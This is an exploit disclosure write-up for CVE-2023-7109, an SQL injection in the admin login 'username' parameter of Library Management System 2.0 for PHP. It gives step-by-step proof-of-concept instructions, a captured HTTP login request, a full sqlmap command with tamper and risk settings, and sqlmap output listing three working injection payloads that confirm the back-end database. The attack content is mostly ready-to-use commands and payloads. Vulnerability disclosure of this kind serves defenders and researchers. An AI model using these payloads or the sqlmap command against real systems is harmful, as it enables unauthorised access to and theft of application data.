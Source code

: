 # CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Exploit Title:** CVE-2023-7109_Library-Management-System_SQL_Injection-1
+ **Date:** 2023-23-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/
+ **Software Link:** https://download-media.code-projects.org/2020/02/LIBRARY_MANAGEMENT_SYSTEM_IN_PHP_WITH_SOURCE_CODE_VER.2.0.zip
+ **Version:** 2.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7109

## References: 
+ **CVE-2023-7109:** https://vuldb.com/?id.249004
+ https://www.cve.org/CVERecord?id=CVE-2023-7109
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7109
+ https://nvd.nist.gov/vuln/detail/CVE-2023-7109

## Description:
Library Management System 2.0 allows SQL Injection via parameter 'username' in "/libsystem/admin/login.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the admin panel: "http://localhost/libsystem/admin/login.php"
+ Fill the username and password then click 'Sign In' button.
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /libsystem/admin/login.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 313
Content-Type: application/x-www-form-urlencoded
Referer: http://localhost/libsystem/admin/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

username=admin&login=&password=Pass
```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database. 
```
python sqlmap.py -r r.txt -p username --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin' OR NOT 3872=3872-- DYwR&login=&password=pass

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=admin' AND (SELECT 8182 FROM(SELECT COUNT(*),CONCAT(0x71716b7a71,(SELECT (ELT(8182=8182,1))),0x7178706b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jrIz&login=&password=pass

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 9071 FROM (SELECT(SLEEP(5)))PbNC)-- yHio&login=&password=pass
---
[12:40:04] [INFO] testing MySQL
[12:40:04] [INFO] confirming MySQL
[12:40:04] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Apache 2.4.53, PHP 8.1.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[12:40:04] [INFO] fetching current database
[12:40:04] [INFO] resumed: 'libsystem'
current database: 'libsystem'
```

+ current database: `libsystem`
![1](https://github.com/h4md153v63n/CVEs/assets/5091265/ed5fefd1-2d1a-4b64-b2b7-c9b4f24b468b)
